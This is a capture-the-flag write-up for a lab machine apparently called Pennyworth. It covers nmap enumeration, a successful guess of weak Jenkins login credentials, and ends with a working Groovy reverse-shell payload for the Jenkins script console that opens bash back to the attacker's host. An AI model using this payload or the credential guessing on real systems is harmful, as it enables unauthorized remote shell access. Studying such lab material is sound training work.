 %% Table later %%

# Pennyworth Enumeration

## nmap 

```bash
$ nmap pennyworth.htb 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-27 23:01 JST
Stats: 0:00:17 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 56.40% done; ETC: 23:02 (0:00:13 remaining)
Stats: 0:00:17 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 60.17% done; ETC: 23:02 (0:00:12 remaining)
Nmap scan report for pennyworth.htb (10.129.231.216)
Host is up (0.20s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
8080/tcp open  http-proxy
```


```bash
nmap -sCV pennyworth.htb 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-27 23:25 JST
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 31.62% done; ETC: 23:25 (0:00:06 remaining)
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 42.12% done; ETC: 23:25 (0:00:04 remaining)
Nmap scan report for pennyworth.htb (10.129.231.216)
Host is up (0.21s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn\'t have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.39.v20210325)
| http-robots.txt: 1 disallowed entry 
|_/

```

Seems like it only has one open HTTP server at `8080`

Key findings: 
- HTTP on port 8080

## Web Access

Accessing `http://pennyworth.htb:8080` ( I added target IP in `/etc/hosts`) led me to a login page for `Jenkins`

![](assets/jenkings_login.png)

Jenkins seems to be an [open-soucred CI/CD](https://www.jenkins.io/) ? I could not find any information on default credential for this product. Given the limited intel, I'm assuming the credential is something basic such as
- `root:password`
- `root:admin`
- `admin:admin`

Turns out `root:password` was the correct combination.

Now, Jenkins is a CI/CD tool, so it's likely that there is a way to upload a script to the tool and somehow get shell. A some research led me to [this website](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6), which has detailed steps on getting shell using the script console.

![](assets/jenkins_script_console.png)

## Getting Shell

Following the website guide, 

```groovy
String host="{my localhost port}";
int port=4444;
String cmd="bash";
Process p=new

ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

